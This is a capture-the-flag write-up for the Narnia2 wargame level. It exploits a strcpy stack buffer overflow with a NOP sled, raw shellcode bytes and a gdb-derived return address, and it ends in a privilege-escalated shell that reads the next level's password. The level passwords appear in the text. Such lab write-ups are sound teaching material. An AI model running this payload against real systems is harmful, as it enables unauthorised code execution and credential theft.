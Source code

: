 # Narnia2

- Username: narnia2
- Password: nairiepecu

Source code:

```c

#include <stdio.h>
#include <string.h>
#include <stdlib.h>

int main(int argc, char * argv[]){
    char buf[128];

    if(argc == 1){
        printf("Usage: %s argument\n", argv[0]);
        exit(1);
    }
    strcpy(buf,argv[1]);
    printf("%s", buf);

    return 0;
}
```

This is a classic example of a buffer overflow. The function `strcpy` does not
check the size of the data it copies, which means we can potentially write
outside of the limits of the assigned buffer.
Let's force the segmentation fault and see how can we exploit it.

An input of 129 characters does not break the program. We are certainly writting
out of bounds but we are not yet overwritting the program counter.

> Note I send the slash character using the hex code to be sure how many bytes
we are sending. Depending on the character encoding, character chosen, etc ...
it could mean we are sending several bytes per character.

```sh
narnia2@narnia:~$ /narnia/narnia2 "$(for i in {0..128};do echo -ne '\x2f';done)"
/////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////
```

Increasing the number of slashes up to 132 crashes the program:

```sh
narnia2@narnia:~$ /narnia/narnia2 "$(for i in {0..131};do echo -ne '\x2f';done)"
Segmentation fault
```

Let's be sure that we overwrite the program counter. If we run the program using
`gdb` we can see where does the program counter point.

As we can see below, running the program with 132 characters causes a crash, but
only if we keep pushing more characters we overwrite the program counter to
`0x2f2f2f2f`:

```sh
narnia2@narnia:~$ gdb -q /narnia/narnia2
Reading symbols from /narnia/narnia2...(no debugging symbols found)...done.
(gdb) r $(for i in {0..131};do echo -ne '/';done)
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /narnia/narnia2 $(for i in {0..131};do echo -ne '/';done)

Program received signal SIGSEGV, Segmentation fault.
0xf7e2a202 in __libc_start_main () from /lib32/libc.so.6
(gdb) r $(for i in {0..140};do echo -ne '/';done)
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /narnia/narnia2 $(for i in {0..140};do echo -ne '/';done)

Program received signal SIGSEGV, Segmentation fault.
0x2f2f2f2f in ?? ()
```

To find out the exact amount of padding we can use a marker. Following other
examples in previous challenges I will take `0xdeadbeef`as the target bytes
and use `0x2f` as padding:

```sh
(gdb) r $(for i in {0..131};do echo -ne '/';done)$(echo -ne '\xef\xbe\xad\xde')
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /narnia/narnia2 $(for i in {0..131};do echo -ne '/';done)$(echo -ne '\xef\xbe\xad\xde')

Program received signal SIGSEGV, Segmentation fault.
0xdeadbeef in ?? ()
```

OK, now we can start crafting the exploit. We have 132 bytes available for the
payload and 4 bytes for the address where we want to jump.
The payload is going to be a shellcode. I will use the one in the previous
challenge to open a bash shell.

```sh
\xeb\x11\x5e\x31\xc9\xb1\x21\x80\x6c\x0e
\xff\x01\x80\xe9\x01\x75\xf6\xeb\x05\xe8
\xea\xff\xff\xff\x6b\x0c\x59\x9a\x53\x67
\x69\x2e\x71\x8a\xe2\x53\x6b\x69\x69\x30
\x63\x62\x74\x69\x30\x63\x6a\x6f\x8a\xe4
\x53\x52\x54\x8a\xe2\xce\x81
```

This shellcode is 57 bytes long. We will pad the rest to 132 prepending the byte
`0x90`, which corresponds to the code of the NOP instruction. This instruction
does literally nothing, so if we jump into a NOP, the program will continue to
the next one. In our case this will lead to our shellcode :)

Now for the tricky part: find out the address for the jump.

If we run the program with our payload there must be several (75) addreses with
NOP instructions. We can run it `gdb` and inspect the stack pointer (ESP):

```sh
(gdb) r $(for i in {0..74};do echo -ne '\x90';done)$(echo -ne '\xeb\x11\x5e\x31\xc9\xb1\x21\x80\x6c\x0e\xff\x01\x80\xe9\x01\x75\xf6\xeb\x05\xe8\xea\xff\xff\xff\x6b\x0c\x59\x9a\x53\x67\x69\x2e\x71\x8a\xe2\x53\x6b\x69\x69\x30\x63\x62\x74\x69\x30\x63\x6a\x6f\x8a\xe4\x53\x52\x54\x8a\xe2\xce\x81')$(echo -ne '\xef\xbe\xad\xde')

(gdb) x/300wx $esp
0xffffd660:     0x00000000      0xffffd6f4      0xffffd700      0x00000000
0xffffd670:     0x00000000      0x00000000      0xf7fc5000      0xf7ffdc0c
0xffffd680:     0xf7ffd000      0x00000000      0x00000002      0xf7fc5000
0xffffd690:     0x00000000      0x21aa66e5      0x1b422af5      0x00000000
0xffffd6a0:     0x00000000      0x00000000      0x00000002      0x08048350
0xffffd6b0:     0x00000000      0xf7fee710      0xf7e2a199      0xf7ffd000
0xffffd6c0:     0x00000002      0x08048350      0x00000000      0x08048371
0xffffd6d0:     0x0804844b      0x00000002      0xffffd6f4      0x080484a0
0xffffd6e0:     0x08048500      0xf7fe9070      0xffffd6ec      0xf7ffd920
0xffffd6f0:     0x00000002      0xffffd817      0xffffd827      0x00000000
0xffffd700:     0xffffd8b0      0xffffd8c3      0xffffde7f      0xffffdeb2
0xffffd710:     0xffffdec1      0xffffded2      0xffffdedf      0xffffdef1
0xffffd720:     0xffffdefa      0xffffdf0d      0xffffdf2d      0xffffdf40
0xffffd730:     0xffffdf4c      0xffffdf63      0xffffdf73      0xffffdf87
0xffffd740:     0xffffdf92      0xffffdf9a      0xffffdfaa      0x00000000
0xffffd750:     0x00000020      0xf7fd7c90      0x00000021      0xf7fd7000
0xffffd760:     0x00000010      0x178bfbff      0x00000006      0x00001000
0xffffd770:     0x00000011      0x00000064      0x00000003      0x08048034
0xffffd780:     0x00000004      0x00000020      0x00000005      0x00000008
0xffffd790:     0x00000007      0xf7fd9000      0x00000008      0x00000000
0xffffd7a0:     0x00000009      0x08048350      0x0000000b      0x000036b2
0xffffd7b0:     0x0000000c      0x000036b2      0x0000000d      0x000036b2
0xffffd7c0:     0x0000000e      0x000036b2      0x00000017      0x00000001
0xffffd7d0:     0x00000019      0xffffd7fb      0x0000001a      0x00000000
0xffffd7e0:     0x0000001f      0xffffdfe8      0x0000000f      0xffffd80b
0xffffd7f0:     0x00000000      0x00000000      0x96000000      0x532a2679
0xffffd800:     0x1f8d6f03      0x3fb0a621      0x69485a8f      0x00363836
0xffffd810:     0x00000000      0x2f000000      0x6e72616e      0x6e2f6169
0xffffd820:     0x696e7261      0x90003261      0x90909090      0x90909090
0xffffd830:     0x90909090      0x90909090      0x90909090      0x90909090
0xffffd840:     0x90909090      0x90909090      0x90909090      0x90909090
0xffffd850:     0x90909090      0x90909090      0x90909090      0x90909090
0xffffd860:     0x90909090      0x90909090      0x90909090      0x90909090
0xffffd870:     0x11eb9090      0xb1c9315e      0x0e6c8021      0xe98001ff
0xffffd880:     0xebf67501      0xffeae805      0x0c6bffff      0x67539a59
0xffffd890:     0x8a712e69      0x696b53e2      0x62633069      0x63306974
0xffffd8a0:     0xe48a6f6a      0x8a545253      0xef81cee2      0x00deadbe
```

We see a bunch of NOP instructions around `0x0xffffd830` and `0xffffd860`. If we
pick any of these as entrypoint, the program flow should lead to the shellcode.

Let's try, this time without `gdb`:

```sh
narnia2@narnia:~$ /narnia/narnia2 $(for i in {0..74};do echo -ne '\x90';done)$(echo -ne '\xeb\x11\x5e\x31\xc9\xb1\x21\x80\x6c\x0e\xff\x01\x80\xe9\x01\x75\xf6\xeb\x05\xe8\xea\xff\xff\xff\x6b\x0c\x59\x9a\x53\x67\x69\x2e\x71\x8a\xe2\x53\x6b\x69\x69\x30\x63\x62\x74\x69\x30\x63\x6a\x6f\x8a\xe4\x53\x52\x54\x8a\xe2\xce\x81')$(echo -ne '\x60\xd8\xff\xff')
bash-4.4$ whoami
narnia3
bash-4.4$ cat /etc/narnia_pass/narnia3
vaequeezee
bash-4.4$ 
```

We did it!
